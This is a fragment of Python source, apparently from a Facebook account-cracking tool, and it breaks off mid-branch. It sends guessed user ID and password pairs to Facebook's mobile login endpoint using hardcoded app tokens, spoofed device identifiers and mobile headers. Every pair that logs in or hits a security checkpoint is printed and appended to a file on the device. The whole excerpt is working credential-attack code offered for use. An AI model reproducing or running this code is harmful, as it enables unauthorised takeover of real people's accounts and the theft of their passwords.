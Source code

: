                         jazoest = li2+j1
                        data = {
                                "adid": adid,
"format": "json",
"device_id": str(uuid.uuid4()),
"cpl": "true",
"family_device_id": str(uuid.uuid4()),
"credentials_type": "device_based_login_password",
"error_detail_type": "button_with_disabled",
"source": "device_based_login",
"email": ids,
"password": pas,
"access_token": "350685531728|62f8ce9f74b12f84c123cc23437a4a32",
"generate_session_cookies": "1",
"meta_inf_fbmeta": "",
"advertiser_id": "8b59ed89-4b88-4f69-a1ed-dfea59e76839",
"currently_logged_in_userid": "0",
"locale": "en_US",
"client_country_code": "US",
"method": "auth.login",
"fb_api_req_friendly_name": "authenticate",
"fb_api_caller_class": "com.facebook.account.login.protocol.Fb4aAuthHandler",
"api_key": "882a8490361da98702bf97a021ddc14d",}
                        headers={
                                'User-Agent': ua,
'Content-Type': 'application/x-www-form-urlencoded',
'Host': 'graph.facebook.com',
'X-FB-Net-HNI': '45204',
'X-FB-SIM-HNI': '45201',
'X-FB-Connection-Type': 'MOBILE.LTE',
'X-Tigon-Is-Retry': 'False',
'x-fb-session-id': 'nid=jiZ+yNNBgbwC;pid=Main;tid=132;nc=1;fc=0;bc=0;cid=d29d67d37eca387482a8a5b740f84f62',
'x-fb-device-group': '5120',
'X-FB-Friendly-Name': 'ViewerReactionsMutation',
'X-FB-Request-Analytics-Tags': 'graphservice',
'X-FB-HTTP-Engine': 'Liger',
'X-FB-Client-IP': 'True',
'X-FB-Server-Cluster': 'True',
'x-fb-connection-token': 'd29d67d37eca387482a8a5b740f84f62',
'Content-Length': '698'}
                        url = 'https://b-graph.facebook.com/auth/login'
                        twf = 'Login approval'+'s are on. '+'Expect an SMS'+' shortly with '+'a code to use'+' for log in'
                        po = requests.post(url,data=data,headers=headers).json()
                        if 'session_key' in po:
                                try:
                                        uid = po['uid']
                                except:
                                        uid = ids
                                if str(uid) in oks:
                                        break
                                else:
                                        print('\r\r\033[1;32m [𝐈𝐣𝐚𝐳-OK] '+str(uid)+' | '+pas+'\033[1;97m')
                                        open('/sdcard/𝐈𝐣𝐚𝐳-rnd-OK.txt','a').write(str(uid)+'|'+pas+'\n')
                                        oks.append(str(uid))
                                        break
                        elif 'www.facebook.com' in po['error']['message']:
                                try:
                                        uid = po['error']['error_data']['uid']
                                except:
                                        uid = ids
                                if uid in oks:pass
                                else:
                                        print('\r\r\x1b[38;5;205m [IJAZ-CP] '+str(uid)+' | '+pas+'\033[1;97m')